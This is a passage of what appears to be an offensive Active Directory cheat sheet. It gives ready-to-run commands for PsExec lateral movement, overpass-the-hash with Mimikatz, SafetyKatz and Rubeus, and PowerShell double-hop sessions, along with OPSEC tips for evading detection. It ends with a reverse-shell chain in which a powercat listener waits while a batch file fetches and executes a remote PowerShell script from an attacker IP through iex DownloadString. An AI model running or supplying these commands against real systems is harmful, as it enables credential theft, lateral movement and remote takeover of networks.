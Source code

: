 #### Psexec
- Seems to only work with password or after a overpass the hash attack with Mimikatz!
```
.\PsExec64.exe \\<COMPUTERNAME> -accepteula -u <DOMAIN>\<ADMINISTRATOR -p <PASSWORD> cmd.exe
.\PsExec64.exe \\<COMPUTERNAME> -accepteula 
```

### Overpass The Hash
- Over Pass the hash (OPTH) generate tokens(kerberos) from hashes or keys. Needs elevation (Run as administrator)
- OPSEC TIP: Use aes256 keys!

#### Calculate NTLM hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Mimikatz overpass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### SafetyKatz
```
SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:cmd.exe" "exit" 
```

#### Rubeus
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:<USER> /rc4:<NTLM HASH> /domain /nowrap /ptt
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /ptt
```

- Below command needs elevation
```
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Double hop
#### Pssession in pssession
```
Enter-PSSession -ComputerName <NAME>
$sess = New-PSSession <SERVER> -Credential <DOMAIN>\<USER>
Invoke-Command -Scriptblock {hostname; whoami;} -Session $sess
```

#### Overpass the hash mimikatz reverse shell
```
powercat -l -v -p 444 -t 5000

$sess = New-PSSession <SERVER> 
#.ps1 is a reverse shell back to the attacker machine, make sure you run it as the user you want
$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''))'; Out-File -Encoding Ascii -InputObject $Contents -FilePath reverse.bat
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:C:\reverse.bat"'
```
